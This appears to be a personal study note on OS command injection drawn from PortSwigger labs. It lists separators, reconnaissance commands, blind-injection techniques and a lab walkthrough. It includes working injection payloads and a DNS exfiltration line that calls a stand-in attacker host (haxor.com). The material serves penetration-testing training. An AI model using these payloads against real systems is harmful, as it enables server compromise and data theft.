

## Resources/Method & Payloads
- [Methodology, steps & payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#methodology)
- [Bunch of payloads!](https://techbrunch.github.io/patt-mkdocs/Command%20Injection/)
- [Commix](https://github.com/commixproject/commix) - Automated All-in-One OS Command Injection Exploitation Tool!

## [OS Command Injection:](https://portswigger.net/web-security/os-command-injection)
#command-injection 
When an attacker can **execute OS commands on the web server itself**, compromise other parts of the hosting infrastructure, and/or exploit trust relationships to pivot the attack to other systems within the organization.
- [Cheatsheet & payloads/evasion here](https://hackviser.com/tactics/pentesting/web/command-injection)
#### Useful commands to gather system info:

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |

## Injection points

***Try commands like: `& echo hello #` or `1|whoami`*** *(where the original parameter is `1`)*
E.g. via a URL, but must be within `POST` requests:
`https://insecure-website.com/stockStatus?productID=381&storeID=29`
This may query various legacy systems - e.g. **calling out to a shell command with the `product` and `storeID` as arguments:**
``` bash
stockreport.pl 381 29
```
So if `381 & whoami #` is injected into the `productID` parameter (URL-encoded), we can comment out the rest of the command & successfully run:
``` bash
stockreport.pl 381 & whoami # 29
```

Placing the additional command separator `&` after the injected command is useful because it **separates the injected command from whatever follows the injection point** - reducing the likelihood that what follows will prevent the injected command from executing. 
- **Target the end operator where possible** - e.g. `productId=1&storeId=1|whoami`
- If middle parameter is vulnerable, but throwing errors due to subsequent command being appended - **try commenting out rest of command with `#`**
	- E.g. injecting `& whoami #`
	  

### Blind OS command injection:
Where the application **does not return the output from the command within its HTTP response.** 
E.g., in an app that mails users based on feedback, command might be:
``` bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
Even if we inject something like `& whoami #`, we wouldn't see the output as the output from the `mail` command (if any) is not returned in the application's responses. 

Thus, necessitates different techniques to see whether commands are run:
- **Time-delay based** (`& ping -c 10 127.0.0.1 &`)
- **Redirect output into controlled/known browsable webroot directory** (`& whoami > /var/www/static/whoami.txt &`)
- **via OAST techniques** (`& nslookup lol.haxor.com &`)
- ... and exfiltration via appending commands to **OAST techniques** (```& nslookup `whoami`.haxor.com &```) 


#### Blind via time-based delays
Often good idea to inject a fixed-time command—*e.g. `ping` the loopback for X seconds*—to determine whether the command executed **based on the time that the application takes to respond.**
`& ping -c 10 127.0.0.1 &`


#### Blind via redirecting output into a controlled directory/file
If you know the **webapp stores/serves files from a particular location**, like `/var/www/static/`, can try and **write output from command and save it there** to browse to from the webapp.
e.g.
`& whoami > /var/www/static/whoami.txt &`

##### [Lab](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection): Blind OS command injection with output redirection
- Tested each parameter with `%26+ping+-c+10+127.0.0.1+%26`, only the `email` field had a time based response, with `Could not save` as a response.
- Notice that images are being loaded on site, via `/resources/images/imagename.jpg`. Can try and fuzz to find the webroot path to write command output here. 
- **Fuzz format:** `& whoami > FUZZ/images/output.txt &`
- Or, just guess a couple of common file paths, like `/var/www/images`
Our first try doesn't work, maybe to do with the `Could not save` part? `&` runs in background, so perhaps we leverage the failing first mailto command to run ours instead with `||` ? 

**Using either:**
`& whoami > /var/www/images/whoami.txt &` (will run in background)
*or*
`email=||whoami>/var/www/images/whoami.txt||` (will run IF the previous command fails, which it seems to be with `Could not save`. Imo, `&` is safer.)

We can now hope that the file has been written on disk. Now, when we can't browse `/resources/images/whoami.txt` directly, we can try to modify an image in-transit instead to load it:

But, make sure to **intercept response to this request**, in order to read the file contents:


#### Blind via OAST techniques
Can try and cause an interaction with an OOB server you control, like collaborator. Can use this for dns lookups, and even append the output of commands run, with:
```& nslookup `command-to-run`.{YOURSERVER}.com &``` *(URL encode this*)



---

## Ways of injecting OS commands
These all have different semantics/meanings, and may help with OOB detection based on conditions - see [here.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#chaining-commands)

| Windows & Linux | Unix-only                                    |
| --------------- | -------------------------------------------- |
| &, &&, \|, \|\| | `;`, Newline (`0x0a` or `\n`)                |
|                 | Injected commands:<br>\` injected-command \` |
|                 | `$(injected-command)`                        |

If the input appears **within a quoted string**, may need to **terminate the quoted context (using `"` or `'`)** before performing command injection.
